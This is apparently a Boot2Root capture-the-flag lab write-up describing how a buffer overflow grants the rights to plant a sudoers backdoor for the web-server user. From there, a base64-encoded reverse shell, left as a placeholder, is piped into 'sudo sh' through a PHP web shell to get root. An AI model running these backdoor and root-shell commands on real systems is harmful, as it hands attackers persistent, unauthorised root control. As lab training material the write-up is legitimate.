 # Boot2Root - Backdoor

Starting from `Step 8 - Piscine a débordement`

## Step 8 - sudoers

We use the `exploit_me` binary buffer overflow to launch the shellcode
found at `scripts/shellcode.py`. Which gives us enough rights to launch these two commands:
```
echo "www-data ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/afile
chmod 0440 /etc/sudoers.d/afile
```

Now, `www-data`, the user of the webserver is a sudoer, which is a considerable backdoor.
We now have to launch a reverse shell with `sudo` thanks to the `shell.php`:

```
printf "<reverse shell en base64>" | base64 -d | sudo sh
```

![chipi chapa](../figs/chipi-chapa.gif)

And we are root !
